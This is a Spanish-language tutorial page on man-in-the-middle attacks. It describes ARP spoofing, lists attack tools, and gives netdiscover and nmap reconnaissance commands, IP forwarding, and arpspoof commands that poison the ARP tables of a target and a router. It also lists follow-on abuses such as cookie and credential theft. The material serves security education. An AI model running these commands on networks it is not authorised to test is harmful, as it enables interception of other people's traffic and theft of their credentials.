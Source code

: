 # Man in the Middle Attacks

## ¿Que es?

**Man in the Middle** o también llamado **“hombre en el medio”** ,es un tipo de ataque que consiste en interceptar las comunicaciones entre dos objetivos. El atacante puede escuchar o capturar todo lo que ocurre entre ambos objetivos,que normalmente no debería ocurrir.



<img src="../../../.gitbook/assets/file.excalidraw (15).svg" alt="" class="gitbook-drawing">



### Tipos de herramientas para ejecutar el ataque

* **Arpspoof**
* **Ettercap**&#x20;
* **Bettercap**
* **Mitmf**

## Proceso de ataque ArpSpoof

### Recopilación de información

Antes de realizar el ataque como siempre se debe realizar la recopilación de información de los objetivos.

Lo que se realiza es una captura de paquetes ARP ,en  esta captura se puede obtener información como:

* IP
* MAC
* Tipo de dispositivo / Sistema operativo

Una de las herramientas que se puede usar es NetDiscover.

```
sudo netdiscover -i wlan0 -r 192.168.0.1/24
```

Se coloca la interfaz y el rango de IP, tiene varias funcionalidades.

Esto se puede ampliar y se puede usar herramientas como nmap para obtener mas información del cliente.

* Obtener puertos
* Versiones de servicios

```
nmap -sCV --open --top-ports 192.168.0.1/24
```

### Realizar el ataque

Antes de empezar el ataque se debe saber que es [ARP](../../../ethical-hacker/teoria-network/arp.md).

Tenemos el protocolo de resolución de direcciones o ARP. ARP es un protocolo de la capa de red utilizado para convertir cualquier dirección IP en una dirección física. ARP se usa para vincular nuestra dirección IP a la dirección MAC para comunicarse con cualquier dispositivo en tu red.

Este ataque va a consistir en un  envenenamiento de ARP, también conocido como ARP spoofing o envenenamiento de tablas ARP. Es decir consiste en enviar respuestas ARP falsas a los dispositivos de una red local para hacerse pasar por el router (Gateway) o por otro dispositivo.

#### Pasos con arpspoof

1.  **Habilitar reenvío de IP en el atacante**:

    ```bash
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
2.  **Contaminar la tabla ARP del cliente objetivo**:

    ```bash
    arpspoof -i wlan0 -t [IP del objetivo] [IP del router]
    ```
3.  **Contaminar la tabla ARP del router**:

    ```bash
    arpspoof -i wlan0 -t [IP del router] [IP del objetivo]
    ```

**Acciones posibles en un ataque de "Man-in-the-Middle" (MITM)**:

* Redirigir al objetivo a cualquier sitio web
* Robo de cookies
* Inyectar un keylogger
* Capturar capturas de pantalla
* Capturar imágenes de la cámara del dispositivo
* Modificar o manipular datos enviados
* Escuchar comunicaciones
* Redirigir comunicaciones a través de proxies maliciosos
* Inyección de contenido malicioso
* Interceptar y modificar respuestas de servidores
* Robo de credenciales
* Realizar un ataque de denegación de servicio (DoS)
* Interceptar y redirigir pagos en línea
* Instalar ransomware
* Alteración de la configuración del sistema

#### Mas información

[https://www.welivesecurity.com/la-es/2014/02/11/como-funciona-arpspoof/](https://www.welivesecurity.com/la-es/2014/02/11/como-funciona-arpspoof/)

[https://www.terranovasecurity.com/blog/man-in-the-middle-attacks](https://www.terranovasecurity.com/blog/man-in-the-middle-attacks)
